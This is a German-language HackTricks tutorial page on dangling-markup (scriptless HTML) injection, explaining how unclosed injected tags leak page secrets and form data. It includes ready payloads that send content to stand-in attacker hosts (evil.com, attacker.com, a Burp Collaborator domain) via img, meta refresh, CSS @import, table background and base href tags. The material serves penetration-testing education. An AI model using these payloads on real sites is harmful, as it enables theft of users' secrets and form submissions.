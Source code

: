 # Dangling Markup - HTML scriptless injection

{{#include ../../banners/hacktricks-training.md}}

## Resume

Diese Technik kann verwendet werden, um Informationen von einem Benutzer zu extrahieren, wenn eine **HTML-Injection gefunden wird**. Dies ist sehr nützlich, wenn Sie **keinen Weg finden, um eine** [**XSS** ](../xss-cross-site-scripting/index.html) zu exploiten, aber Sie **einige HTML-Tags injizieren können**.\
Es ist auch nützlich, wenn ein **Geheimnis im Klartext** im HTML gespeichert ist und Sie es **exfiltrieren** möchten, oder wenn Sie eine Skriptausführung irreführen möchten.

Mehrere hier kommentierte Techniken können verwendet werden, um einige [**Content Security Policy**](../content-security-policy-csp-bypass/index.html) zu umgehen, indem Informationen auf unerwartete Weise exfiltriert werden (HTML-Tags, CSS, HTTP-Meta-Tags, Formulare, Basis...).

## Main Applications

### Stealing clear text secrets

Wenn Sie `<img src='http://evil.com/log.cgi?` injizieren, wird der Opfer beim Laden der Seite Ihnen den gesamten Code zwischen dem injizierten `img`-Tag und dem nächsten Anführungszeichen im Code senden. Wenn sich ein Geheimnis irgendwie in diesem Abschnitt befindet, werden Sie es stehlen (Sie können dasselbe mit einem doppelten Anführungszeichen tun, schauen Sie sich an, was interessanter zu verwenden sein könnte).

Wenn das `img`-Tag verboten ist (zum Beispiel aufgrund von CSP), können Sie auch `<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?` verwenden.
```html
<img src='http://attacker.com/log.php?HTML=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
Beachten Sie, dass **Chrome HTTP-URLs** mit "<" oder "\n" blockiert, sodass Sie andere Protokollschemata wie "ftp" ausprobieren können.

Sie können auch CSS `@import` missbrauchen (sendet den gesamten Code, bis es ein ";" findet).
```html
<style>@import//hackvertor.co.uk?     <--- Injected
<b>steal me!</b>;
```
Du könntest auch **`<table`** verwenden:
```html
<table background='//your-collaborator-id.burpcollaborator.net?'
```
Sie könnten auch ein `<base`-Tag einfügen. Alle Informationen werden gesendet, bis das Zitat geschlossen ist, aber es erfordert eine Benutzerinteraktion (der Benutzer muss auf einen Link klicken, da das Basistag die durch den Link angegebene Domain geändert hat):
```html
<base target='        <--- Injected
steal me'<b>test</b>
```
### Formulare stehlen
```html
<base href="http://evil.com/" />
```
Dann werden die Formulare, die Daten an den Pfad senden (wie `<form action='update_profile.php'>`), die Daten an die bösartige Domain senden.
